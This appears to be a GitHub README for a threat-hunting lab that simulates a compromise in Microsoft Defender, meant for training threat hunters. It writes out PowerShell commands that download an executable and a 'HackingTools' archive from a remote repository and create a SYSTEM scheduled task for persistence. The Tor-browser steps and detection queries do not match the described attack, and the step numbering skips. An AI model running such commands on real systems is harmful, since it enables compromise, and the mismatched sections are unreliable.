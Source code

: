# Threat Event (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knolwedge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in attempt to not disrupt other devices and systems on the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. When executed, `MaliciousExecutable.exe` ran several encoded PowerShell commannds to populate the EDR logs. These commands consisted of:
   - First Command: `Invoke-WebRequest -Uri "https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/HackingTools.zip" -OutFile "$env:USERPROFILE\Downloads\HackingTools.zip"`
   - Second Command: `Expand-Archive -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -DestinationPath "$env:USERPROFILE\Downloads\HackingTools" -Force`
   - Third Command: `Remove-Item -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -Force`
   - Fourth Command: `schtasks /create /tn "PersistenceScheduledTask" /tr "powershell.exe -ExecutionPolicy Bypass -File $env:USERPROFILE\Downloads\HackingTools\HackingTools\PersistenceScript.ps1" /sc onlogon /ru SYSTEM /f`
   - Fifth Command: `arp -a | Out-File -FilePath "$env:USERPROFILE\Desktop\arp_results.txt"`

6. Create a folder on your desktop called ```tor-shopping-list.txt``` and put a few fake (illicit) items in there
7. Delete the file.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   
